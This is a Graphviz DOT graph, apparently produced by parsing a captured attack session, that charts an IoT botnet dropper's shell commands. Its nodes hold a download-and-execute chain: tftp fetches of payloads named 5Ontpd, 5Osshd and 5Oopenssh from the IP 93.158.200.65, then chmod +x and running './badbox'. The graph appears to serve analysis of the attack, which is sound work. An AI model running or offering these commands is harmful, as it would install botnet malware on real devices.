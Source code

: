 digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="cp /bin/busybox /tmp/ "];
2 -> 2
64 [label="cd /tmp "];
64 -> 64
66 [label="cd /var/run "];
66 -> 68 [label="||,"];
68 [label="cd /mnt "];
68 -> 70 [label="||,"];
70 [label="cd /root "];
70 -> 72 [label="||,"];
72 [label="cd / "];
72 -> 14 [label="||,"];
14 [label="tftp -r 5Ontpd -g 93.158.200.65 "];
14 -> 16 [label=";,"];
16 [label="cat 5Ontpd badbox "];
16 -> 58 [label=";,"];
58 [label="badbox "];
58 -> 58
60 [label="chmod +x * "];
60 -> 62 [label=";,"];
62 [label="./badbox "];
62 -> 64 [label=";,"];
64 [label="cd /tmp "];
64 -> 64
66 [label="cd /var/run "];
66 -> 68 [label="||,"];
68 [label="cd /mnt "];
68 -> 70 [label="||,"];
70 [label="cd /root "];
70 -> 72 [label="||,"];
72 [label="cd / "];
72 -> 34 [label="||,"];
34 [label="tftp -r 5Osshd -g 93.158.200.65 "];
34 -> 36 [label=";,"];
36 [label="cat 5Osshd badbox "];
36 -> 58 [label=";,"];
58 [label="badbox "];
58 -> 58
60 [label="chmod +x * "];
60 -> 62 [label=";,"];
62 [label="./badbox "];
62 -> 64 [label=";,"];
64 [label="cd /tmp "];
64 -> 64
66 [label="cd /var/run "];
66 -> 68 [label="||,"];
68 [label="cd /mnt "];
68 -> 70 [label="||,"];
70 [label="cd /root "];
70 -> 72 [label="||,"];
72 [label="cd / "];
72 -> 54 [label="||,"];
54 [label="tftp -r 5Oopenssh -g 93.158.200.65 "];
54 -> 56 [label=";,"];
56 [label="cat 5Oopenssh badbox "];
56 -> 58 [label=";,"];
58 [label="badbox "];
58 -> 58
60 [label="chmod +x * "];
60 -> 62 [label=";,"];
62 [label="./badbox "];
62 -> 64 [label=";,"];
64 [label="cd /tmp "];
64 -> 64
66 [label="cd /var/run "];
66 -> 68 [label="||,"];
68 [label="cd /mnt "];
68 -> 70 [label="||,"];
70 [label="cd /root "];
70 -> 72 [label="||,"];
72 [label="cd / "];
72 -> 73 [label="||,"];
}

